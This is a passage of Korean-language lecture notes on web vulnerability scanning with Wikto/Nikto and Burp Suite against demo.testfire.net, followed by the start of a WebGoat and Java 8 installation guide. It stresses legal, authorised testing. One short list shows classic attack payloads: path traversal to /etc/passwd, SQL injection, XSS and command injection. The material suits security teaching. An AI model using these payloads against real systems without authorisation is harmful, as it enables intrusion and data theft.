

**스캔 중 관찰 사항**:

> "쿼리를 만들어서 넘겨보고 여기에서 걸리는 쿼리가 있는지. 이런 것들 뭐 폰트나 뭐 이제 이런 문자들을 이게 업로드... 여기 잘 보면은 이런 것들이 이제 **취약성 코드들**이에요. 취약성 코드들을 넣는 거예요."

**대표적인 취약점 체크**:
- Directory Traversal: `../../../etc/passwd`
- SQL Injection: `' OR '1'='1`
- XSS: `<script>alert(1)</script>`
- Command Injection: `; ls -la`

#### 4단계: 스캔 결과 확인

**결과 탭 구성**:

강사님:
> "이게 다 돌아가면 결과는 이걸 스캔한 결과는 이쪽 좌측 하단이나 여기 보면은 '**wikto result**'라고 되어 있죠. 여기 'result'가 찍힐 테고요."

**결과 분석 방법**:

| **항목** | **내용** | **조치 방법** |
|:---:|:---:|:---:|
| Request | 전송한 HTTP 요청 | 재현 테스트 |
| Response | 서버 응답 | 취약점 확인 |
| Vulnerability Type | 취약점 유형 | 패치 방법 검색 |
| Severity | 심각도 | 우선순위 결정 |

---

### 🗂️ Spider 기능: 사이트 맵핑

강사님:
> "이거는 어차피 오래 걸려서 다 돌려보기 힘들고, 3,000개가 일어있는데 이렇게 실행을 한다 정도만 보시고요. 아니면 돌려놓은 상태에서 이쪽 탭으로 가볼까요?"

#### Spider 실행

**설정**:
```
Target: demo.testfire.net
Port: 80
```

강사님:
> "자 그럼 이 테이블이 어떻게 생겼는지를 보고 싶으면 우리는 어떤 명령이 있었어요? 디스크립션에 **DSC**라는 명령이 있었죠. DSC 한 칸 띄고 어드민 인포. 어드민 인포가 어떤 테이블인데 어떻게 정리되어 있는데..."

**Spider 결과**:

> "이미지라는 디렉토리에 swagger라는 디렉토리, pr, admin이라는 디렉토리가 잡히네요. 그럼 admin 밑에 뭐가 있는지도 나중에 찾아 볼 수 있고 뭐 이럴 때 이렇게 했죠."

```
demo.testfire.net
├── /images
├── /swagger
├── /pr
└── /admin    ← 주목!
```

💡 **발견된 `/admin` 디렉토리의 의미**:
- 일반 사용자에게 숨겨진 관리자 페이지
- 접근 통제가 제대로 되어 있는지 확인 필요
- 공격자의 주요 타겟

---

### 🔐 보안 고려사항

#### Wikto 스캔의 위험성

⚠️ **주의**:

1. **법적 문제**:
   - 허가받지 않은 사이트 스캔은 불법
   - 반드시 공개 테스트 사이트 사용
   - 실무에서는 서면 승인 필요

2. **서버 부하**:
   - 3,000개 이상의 요청 전송
   - 서버에 부담을 줄 수 있음
   - DoS 공격으로 오인될 가능성

3. **탐지 위험**:
   - 방화벽/IDS에서 쉽게 탐지됨
   - IP 차단 가능
   - 로그에 모두 기록됨

#### 윤리적 해킹 (Ethical Hacking)

강사님의 강조:

> "저도 어제 갑자기 생각나서 검색을 해 봤는데 검색을 해 보니까 예전에 저도 학생 때 공부할 때 이제 오래 됐어서 까먹고 있었는데 테스트해 보는 사이트가 많이 나와요."

**안전한 학습 방법**:

| **환경** | **안전성** | **추천도** |
|:---:|:---:|:---:|
| 공개 테스트 사이트 | 안전 | ⭐⭐⭐⭐⭐ |
| 로컬 가상머신 | 안전 | ⭐⭐⭐⭐⭐ |
| 자신의 웹사이트 | 안전 | ⭐⭐⭐⭐ |
| 타인의 사이트 (허가 없음) | 위험 | ❌ 절대 금지 |

---

## 📊 Burp Suite vs Wikto 비교

### 종합 비교표

| **항목** | **Burp Suite** | **Wikto/Nikto** |
|:---:|:---:|:---:|
| **타입** | 통합 플랫폼 | 취약점 스캐너 |
| **주요 기능** | Proxy, Spider, Scanner | 자동 스캔 |
| **인터페이스** | 현대적, 직관적 | 구형, 단순 |
| **학습 곡선** | 중간 | 낮음 |
| **무료 기능** | 제한적 | 전체 무료 |
| **활용도** | 매우 높음 | 중간 |
| **업데이트** | 지속적 | 거의 없음 |
| **추천 용도** | 수동 테스트, 분석 | 빠른 스캔 |

### 실무 활용 조합

💡 **권장 워크플로우**:



**단계별 설명**:

1. **Burp Suite로 수동 탐색**:
   - 사이트 구조 파악
   - 주요 기능 확인
   - 파라미터 수집

2. **Wikto 자동 스캔**:
   - 빠른 취약점 스캔
   - 숨겨진 디렉토리 발견
   - 알려진 취약점 체크

3. **Burp Suite로 상세 분석**:
   - 발견된 취약점 검증
   - Repeater로 재현 테스트
   - Intruder로 Fuzzing

---

## ✅ 학습 체크리스트

이 섹션을 완료한 후 다음을 확인하세요:

- [ ] Burp Suite의 Proxy 동작 원리를 이해했는가?
- [ ] Intercept On/Off의 차이를 알고 활용할 수 있는가?
- [ ] Site Map을 통한 정보 수집의 중요성을 인식했는가?
- [ ] .NET Framework 3.5 설치 방법을 알고 있는가?
- [ ] Hyper-V와 VMware의 충돌 이슈를 이해했는가?
- [ ] Docker 컨테이너 기술의 기본 개념을 알고 있는가?
- [ ] Wikto와 Nikto의 관계를 이해했는가?
- [ ] 공개 테스트 사이트를 활용할 수 있는가?
- [ ] 취약점 데이터베이스 로드의 의미를 알고 있는가?
- [ ] 윤리적 해킹의 중요성을 인식했는가?

---

## 📋 핵심 요약

### Burp Suite

1. **Proxy 기능**: HTTP/HTTPS 트래픽 가로채기 및 분석
2. **Site Map**: 웹사이트 디렉토리 구조 자동 매핑
3. **한계**: 무료 버전은 자동 스캔 불가, 수동 탐색 필요

### Wikto/Nikto

1. **자동 스캐너**: 2,963개 이상의 취약점 패턴 자동 테스트
2. **GUI 래퍼**: Nikto CLI 엔진을 GUI로 감싼 도구
3. **한계**: 구형 프로그램, .NET Framework 3.5 필요

### 윤리적 해킹

1. **법적 준수**: 반드시 허가받은 환경에서만 테스트
2. **공개 사이트 활용**: demo.testfire.net, WebGoat 등
3. **학습 목적**: 방어를 위한 공격 이해

---

**다음 섹션 예고**: WebGoat 설치 및 환경 구성 (Linux + Java)

# 📦 Section 3: WebGoat 설치 및 환경 구성

> **섹션 주제**: OWASP WebGoat 보안 학습 플랫폼 구축
> **학습 시간**: 약 90분 (설치 + 테스트)
> **난이도**: ⭐⭐☆☆☆ (중하)

---

## 🎯 이번 섹션의 학습 목표

이번 섹션에서는 다음 내용을 다룹니다:

1. **WebGoat 소개**: OWASP에서 제공하는 보안 취약점 학습 플랫폼 이해
2. **Java 환경 구성**: Ubuntu 24.04에서 Java 8 설치 및 설정
3. **저장소 관리**: APT 서드파티 저장소 추가 방법
4. **WebGoat 다운로드**: GitHub에서 JAR 파일 다운로드
5. **방화벽 설정**: UFW를 활용한 포트 개방
6. **VM 스냅샷 관리**: 복구 지점 생성 및 활용
7. **백그라운드 실행**: nohup을 활용한 서비스 운영

---

## 📚 WebGoat이란?

### 🔍 WebGoat 개요

**강사님의 설명**:

> "여러분 교재에 나오는 **웹곳이라는 보안 취약성을 공부하기 위한 서버**를 설치를 하려고 하는 거예요. 리눅스 서버로 준비를 하려고 하는 거예요."

**WebGoat의 정의**:

- **개발 기관**: OWASP (Open Web Application Security Project)
- **목적**: 웹 애플리케이션 보안 취약점 학습 및 실습
- **유형**: 의도적으로 취약한 웹 애플리케이션
- **기술 스택**: Java 기반 (Spring Framework)

### 🎓 WebGoat의 특징

#### 안전한 학습 환경



**학습 가능한 취약점**:

| **카테고리** | **취약점 종류** | **학습 내용** |
|:---:|:---:|:---|
| **Injection** | SQL Injection | 로그인 우회, 데이터 탈취, UNION 공격 |
| **Injection** | XPath Injection | XML 쿼리 조작, 데이터 유출 |
| **Authentication** | Broken Authentication | 세션 탈취, 약한 암호, 다단계 인증 우회 |
| **XSS** | Cross-Site Scripting | Reflected XSS, Stored XSS, DOM XSS |
| **Access Control** | Broken Access Control | 권한 상승, 강제 브라우징, IDOR |
| **Security Misconfig** | Security Misconfiguration | 기본 설정 취약점, 오류 메시지 노출 |

### ⚠️ 윤리적 사용 수칙

**강사님의 강조**:

💡 **매우 중요**:

1. **로컬 환경에서만 사용**: WebGoat은 반드시 격리된 환경에서만 실행
2. **외부 노출 금지**: 절대 인터넷에 공개하지 않기
3. **학습 목적만**: 배운 기술을 실제 서비스에 적용 금지
4. **법적 책임**: 무단 해킹은 형법 제48장 정보통신망법 위반

---

## 🖥️ 실습 환경 준비

### 📋 시스템 요구사항

**WebGoat 7.1 실행 요구사항**:

| **항목** | **요구사항** | **비고** |
|:---:|:---:|:---|
| **OS** | Linux (Ubuntu 24.04 권장) | Windows/macOS도 가능 |
| **Java** | Java 8 (1.8.x) | Java 11 이상은 호환 문제 가능 |
| **메모리** | 최소 1GB RAM | 2GB 이상 권장 |
| **디스크** | 약 100MB | JAR 파일 + 로그 |
| **네트워크** | 방화벽 포트 개방 | 기본 8080 또는 사용자 지정 |

### 🔧 VM 환경 구성

#### VM 스냅샷 생성

**강사님의 설명**:

> "스냅샷을 떠놓고 정상적인 경우, 그리고 망가진 경우. 두 가지 경우를 동시에 왔다 갔다 하면서 두 개의 스냅샷을 재현할 수 있어야 되죠."

**스냅샷 활용 전략**:



**실습 과정**:

1. **기존 VM 종료**:

```bash
# VM 내부에서 정상 종료
sudo init 0

# 또는
sudo shutdown -h now
```

**강사님의 팁**:

> "여러 명이 동시에 작업하고 있고 우리 회사 사람들이 다 달라붙어 있는데 이런 식으로 서버를 그냥 끄게 되면 나중에 문제가 될 소지가 많이 있겠죠."

⚠️ **주의사항**:
- **테스트 환경**: `init 0` 또는 강제 종료 가능
- **운영 환경**: 반드시 `shutdown` 명령 사용
- **데이터 보존**: 정상 종료로 파일시스템 손상 방지

2. **스냅샷 생성 (VMware 기준)**:

**GUI 방식**:

```
VM 우클릭 → Snapshot → Snapshot Manager → Take Snapshot
```

**스냅샷 이름 규칙**:

```
웹서버: "nginx_1번 - 2025-12-19 - nginx 설치 완료 + html 작업 완료"
WAS: "was_1번 - 2025-12-19 - Tomcat 기본 설정"
DB: "db_1번 - 2025-12-19 - MySQL 설치 + userinfo DB + mydb 계정(1234)"
```

**강사님의 조언**:

> "스냅샷 매니저에 가서 이렇게 떠났을 때 이걸 보고 기억을 떠올릴 수 있게 몇 가지 정보들을 지정해 놓는 거죠."

💡 **스냅샷 복구 방법**:

```
Snapshot Manager → 복구할 스냅샷 선택 → Go To 버튼 클릭
```

3. **Linked Clone으로 WebGoat VM 생성**:

```
원본 VM 우클릭 → Manage → Clone → Next
Current state (스냅샷 상태 선택) → Next
Create a linked clone → Next
VM 이름: "WebGoat 7.1" → Finish
```

**Linked Clone의 장점**:

| **구분** | **Full Clone** | **Linked Clone** |
|:---:|:---:|:---:|
| **디스크 사용량** | 원본과 동일 (수 GB) | 차이만 저장 (수백 MB) |
| **생성 속도** | 느림 (5-10분) | 빠름 (30초) |
| **독립성** | 완전 독립 | 원본 의존 |
| **용도** | 운영 환경, 백업 | 테스트, 실습 |

---

## ☕ Java 8 설치

### 🔍 Java 버전 호환성

**강사님의 설명**:

> "얘는 기본으로 얘가 정상적으로 실행되면... 웹 브라우저를 열고 접속할 때 얘는 기본 포트가 **8080**으로 jar 파일 안에서 8080을 열고 서비스하게 설정이 되어 있을 거예요."

**Java 버전 선택 이유**:



**Java 8 특징**:

- **릴리즈**: 2014년 3월
- **LTS**: Long Term Support (장기 지원)
- **호환성**: 레거시 Java 애플리케이션 대부분 지원
- **사용 사례**: 은행, 금융권, 공공기관 시스템

### 📦 APT 저장소 관리

#### APT 동작 원리

**강사님의 설명**:

> "리눅스에 여러분들 **apt-get** 하면 어떻게 동작하는지 아시죠. 자기가 알고 있는 **저장소에서** 저장소에서 이런 이런 패키지 주세요 라고 물어보잖아요."



#### 저장소 추가가 필요한 이유

**Ubuntu 24.04 공식 저장소 문제**:

| **Java 버전** | **Ubuntu 공식 저장소** | **Adoptium 저장소** |
|:---:|:---:|:---:|
| Java 8 | ❌ 미제공 | ✅ 제공 (temurin-8-jdk) |
| Java 11 | ✅ 제공 | ✅ 제공 |
| Java 17 | ✅ 제공 | ✅ 제공 |
| Java 21 | ✅ 제공 | ✅ 제공 |

**강사님의 설명**:

> "얘는 공식 **Ubuntu 24.04가 가지고 있는 저장소에는 Java 8이라는 패키지가 없대요**. 내가 이게 필요한데 그럼 어떻게 하느냐? **저장소를 추가해요**."

### 🛠️ Java 8 설치 실습

#### Step 1: 시스템 업데이트

**명령어 설명**:

```bash
# 패키지 목록 업데이트
sudo apt update

# (선택사항) 설치된 패키지 업그레이드
sudo apt upgrade -y
```

**명령어 분석**:

| **명령어** | **동작** | **변경 사항** | **실행 시간** |
|:---:|:---|:---|:---:|
| `apt update` | 저장소에서 최신 패키지 목록 다운로드 | `/var/lib/apt/lists/` 업데이트 | 10-30초 |
| `apt upgrade` | 설치된 패키지를 최신 버전으로 업그레이드 | 시스템 패키지 파일 교체 | 1-5분 |

**강사님의 설명**:

> "이게 그거라고 생각하시면 돼요. 윈도우에서 윈도우 제어판에서 **윈도우 업데이트가 있습니다. 설치하시겠습니까** 그거라고 생각하시면 돼요."

**실습 출력 예시**:

```bash
yoo@webgoat:~$ sudo apt update
Hit:1 http://kr.archive.ubuntu.com/ubuntu noble InRelease
Get:2 http://kr.archive.ubuntu.com/ubuntu noble-updates InRelease [126 kB]
Get:3 http://kr.archive.ubuntu.com/ubuntu noble-security InRelease [126 kB]
Fetched 252 kB in 2s (126 kB/s)
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
48 packages can be upgraded. Run 'apt list --upgradable' to see them.
```

**출력 해석**:

- `Hit`: 저장소 목록 변경 없음 (캐시 사용)
- `Get`: 새로운 패키지 정보 다운로드
- `48 packages can be upgraded`: 업그레이드 가능한 패키지 48개

#### Step 2: 저장소 관리 도구 설치

```bash
sudo apt-get install -y software-properties-common wget apt-transport-https gpg
```

**설치 패키지 분석**:

| **패키지** | **역할** | **사용 시점** |
|:---:|:---|:---|
| `software-properties-common` | `add-apt-repository` 명령 제공 | 저장소 추가 시 |
| `wget` | 웹에서 파일 다운로드 | GPG 키 다운로드 |
| `apt-transport-https` | HTTPS 저장소 지원 | 보안 연결 |
| `gpg` | GPG 키 관리 및 검증 | 서명 확인 |

**강사님의 설명**:

> "저장소를 apt-get에 필요한 명령어들... 저장소를 갖고 오는데 필요한 명령어들을 쭉 설치를 하고..."

#### Step 3: Adoptium GPG 키 다운로드

```bash
wget -O- https://packages.adoptium.net/artifactory/api/gpg/key/public \
  | sudo gpg --dearmor -o /usr/share/keyrings/adoptium.gpg
```

**명령어 구조 분석**:

```mermaid
flowchart LR
    A[wget -O-] -->|다운로드| B[GPG 공개키<br/>텍스트]
    B -->|파이프| C[gpg --dearmor]
    C -->|변환| D[바이너리 키 파일]
    D -->|저장| E[/usr/share/keyrings/<br/>adoptium.gpg]

    style E fill:#ccffcc
```

**상세 설명**:

| **구성 요소** | **설명** | **출력** |
|:---:|:---|:---|
| `wget -O-` | URL에서 데이터를 다운로드하여 표준출력(stdout)으로 출력 | ASCII armored GPG key |
| `\|` (파이프) | 왼쪽 명령의 출력을 오른쪽 명령의 입력으로 전달 | - |
| `gpg --dearmor` | ASCII 형식 키를 바이너리 형식으로 변환 | Binary GPG key |
| `-o /usr/share/keyrings/adoptium.gpg` | 변환된 키를 파일로 저장 | adoptium.gpg 파일 |

**GPG 키의 역할**:



**강사님의 설명**:

> "인증키를 등록해 놓는 거예요. 여기에서 다운받는 것들은 **안전합니다** 라고 하고 키를 등록해 놓는 거예요."

💡 **보안 중요성**:
- GPG 키 없이 저장소 추가 시: ⚠️ 경고 메시지 발생
- 중간자 공격(MITM)으로 악성 패키지 설치 방지
- 공식 배포처 확인 가능

#### Step 4: Adoptium 저장소 추가

```bash
echo "deb [signed-by=/usr/share/keyrings/adoptium.gpg] https://packages.adoptium.net/artifactory/deb $(lsb_release -sc) main" \
  | sudo tee /etc/apt/sources.list.d/adoptium.list
```

**명령어 분석**:

| **구성 요소** | **설명** | **실제 값** |
|:---:|:---|:---|
| `echo "deb ..."` | 저장소 설정 문자열 생성 | - |
| `signed-by=...` | GPG 서명 키 경로 지정 | `/usr/share/keyrings/adoptium.gpg` |
| `$(lsb_release -sc)` | 현재 Ubuntu 버전 코드네임 | `noble` (24.04) |
| `\| sudo tee` | 파이프를 통해 파일에 쓰기 | - |
| `/etc/apt/sources.list.d/adoptium.list` | 새 저장소 설정 파일 | Adoptium 전용 목록 |

**파일 내용 확인**:

```bash
cat /etc/apt/sources.list.d/adoptium.list
```

**출력 예시**:

```
deb [signed-by=/usr/share/keyrings/adoptium.gpg] https://packages.adoptium.net/artifactory/deb noble main
```

**구조 설명**:

```
deb                    → Debian 패키지 저장소
[signed-by=...]        → GPG 키로 서명 확인
https://packages...    → 저장소 URL
noble                  → Ubuntu 24.04 코드네임
main                   → 메인 컴포넌트
```

**저장소 파일 위치**:

```bash
/etc/apt/sources.list          # 기본 Ubuntu 저장소
/etc/apt/sources.list.d/       # 추가 저장소 디렉토리
    ├── adoptium.list          # ← 방금 추가한 파일
    └── ... (기타 서드파티)
```

#### Step 5: 패키지 목록 업데이트

```bash
sudo apt update
```

**강사님의 설명**:

> "apt-update를 수행하면 뭐예요? **새로 추가된 repository에서 새로운 패키지들이 있는지 업데이트**를 하게 될 거예요."

**실행 결과**:

```bash
yoo@webgoat:~$ sudo apt update
Hit:1 http://kr.archive.ubuntu.com/ubuntu noble InRelease
Get:2 https://packages.adoptium.net/artifactory/deb noble InRelease [3,421 B]
Get:3 https://packages.adoptium.net/artifactory/deb noble/main amd64 Packages [15.2 kB]
Fetched 18.6 kB in 1s (18.6 kB/s)
Reading package lists... Done
Building dependency tree... Done
29 packages can be upgraded. Run 'apt list --upgradable' to see them.
```

**새로운 줄 분석**:

- `Get:2 https://packages.adoptium.net/...` ← **Adoptium 저장소 추가됨!**
- `Get:3 ... main amd64 Packages` ← 패키지 목록 다운로드

#### Step 6: Java 8 설치

```bash
sudo apt-get install -y temurin-8-jdk
```

**설치 패키지 분석**:

| **패키지** | **포함 내용** | **용도** |
|:---:|:---|:---|
| `temurin-8-jdk` | Java Development Kit | 개발 + 실행 |
| └ JRE (Java Runtime Environment) | Java 실행 환경 | 프로그램 실행 |
| └ JDK Tools | javac, jar, javadoc 등 | 컴파일, 빌드 |
| └ 라이브러리 | rt.jar, tools.jar 등 | API 제공 |

**강사님의 설명**:

> "JDK는 **자바 디벨롭 킷**이라고 해서 개발자 도구, 라이브러리나 자바 컴파일러나 이런 것들이 포함되어 있는 이런 패키지를 설치를 하는 거예요."

**JDK vs JRE**:



**설치 과정**:

```bash
yoo@webgoat:~$ sudo apt-get install -y temurin-8-jdk
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  temurin-8-jdk
